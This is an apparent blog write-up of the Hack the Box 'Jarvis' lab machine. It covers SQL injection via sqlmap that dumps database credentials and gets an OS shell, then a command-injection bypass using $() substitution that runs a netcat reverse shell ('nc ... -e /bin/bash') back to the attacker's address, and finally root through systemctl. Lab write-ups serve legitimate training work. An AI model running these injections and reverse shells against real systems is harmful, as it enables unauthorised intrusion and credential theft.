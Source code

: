 +++
author = "Nick"
categories = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
date = 2019-11-09T16:06:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-2.png"
slug = "hack-the-box-jarvis"
summary = "Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!"
tags = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
title = "Hack the Box - Jarvis"

+++


Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!

The first things we do is our standard nmap command ```nmap -sC -sV -oA jarvis 10.10.10.143``` We get back a small result

```
Nmap scan report for 10.10.10.143
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So the first thing we do is to head over to the http port and see what's being hosted. We see a hotel site. Many of the links are dead, but the rooms are not. So lets look at them. The first thing we notice is that the rooms page sends us to rooms-suites.php. There's a good chance that we can exploit some PHP. When we click on room 1 and wee it references ?cod=1

![](/images/2019/08/image-23.png" caption="This might be injectable.&nbsp;)

We can run some manual SQL injections against it to test. Turns out it is injectable. We actually get banned for 90 seconds by issuing '1=1'"--. So lets run some sqlmap against it. We run ```sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast``` We have to use --no-cast to convert our null values becuase the service running will likley ban us due to injection attempts.

![](/images/2019/08/image-10.png" caption="sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast)

Now that we've run our mapping successfully, we get back a list of databases. We will check the tables of the 'mysql' database by issuing ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql --tables```.

![](/images/2019/08/image-11.png)

Now that we've dumped the mysql table, lets dump the user portion of it. We issue ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql -T user --dump``` The -D is for Database, the -T is for Table and well we know what --dump does.

Once we've dumped the table we have a user of DBAdmin. SQLMAP will offer to crack the password for us, so why not.

![](/images/2019/08/image-12.png" caption="The cracked password for the phpmyadmin DBAdmin account.)

We know that there is a phpmyadmin console running from enumerating the web service with dirbuster and the default word list.

Next we'll use SQLMAP --shell functionality to see if we can create a reverse shell. We'll issue ```sqlmap -u http://10.10.10.143/room.php?cod=6 -D hotel --os-shell --no-cast```.

![](/images/2019/08/image-13.png)

It worked, we  get a shell as www-admin. So we'll poke around the box. We see that there is a user called Pepper, but we can't access the user.txt file. We try to do some manual enumeration and see that there is a file we can run, simpler.py.

![](/images/2019/08/image-14.png)

When we run the python app as us, we can't. We can however run it as pepper. When we do we're greeted with a command screen:

![](/images/2019/08/image-24.png)

The script seems to give us some info on who would be considered an attacker. Lets look at the source of the script. When we do we see this function, exec_ping() that correlates to the -p command of the script.

![](/images/2019/08/image-15.png)

Now this is where I was having issues with the program. No matter how many times I attempted to run the program, i would get EOF errors:

![](/images/2019/08/image-25.png" caption="EOF Error?!)

So turns out that the shell I was getting from SQLMAP was sending some odd terminal characters in the blank space?! So, I created a quick MSFPayload with MSFPC for a php reverse shell and everything was easy from there out!

This is a text book command injection, with a twist. We have some forbidden characters. So normally, we would be able to issue something like ```simpler.py -p 1 & {MALICIOUS COMMAND}```. This would tell the os to ping an ip of 1 and then execute our malicous command. However, since & is forbidden as well as most standard concatination commands we'll need to be a little bit more creative. We can use [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) since the $ is not forbidden.

The first thing we'll do is a create a small script to initiate a netcat connection back to us.

```bash
echo 'nc 10.10.15.197 4444 -e /bin/bash' > remote.sh
```

We'll then use Command Substitution within the python program to call thsi script. So in the end we have something like this:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: $(/bin/bash remote.sh)
```
So we'll initiate a netcat session: ```nc -lvnp 4444```

After we run it, we see our netcat session light up!

![](/images/2019/08/image-18.png" caption="We've obtained user!)

Now that we're logged in as pepper, lets snag our user key and move onto root!

The shells on the free box have been quite flakey so to hopefully mitigate this, I generated a new id_rsa.pub file and copied it to the box for easy ssh access. Alternatively you can echo your key to the file if it already exists.

![](/images/2019/08/image-19.png)

Now that I can ssh into the box, we download LinEnum.sh to the machine and see what pops up.

![](/images/2019/08/image-20.png)

While parsing through the LinEnum outputs, we see this line:

![](/images/2019/08/image-21.png)

Pepper has the ability to run systemctl. That's quite handy. So we do some googling around and find this: [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/). This will allow us to bypass the requirements for creating a Unit. So we can create a reverse shell task as root and hopefully obtain our flag!

![](/images/2019/08/image-26.png" caption="We follow the steps that are given to us by gtfobins and...)

We have root!

![](/images/2019/08/image-22.png)

Another one bites the dust! We'll see you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).


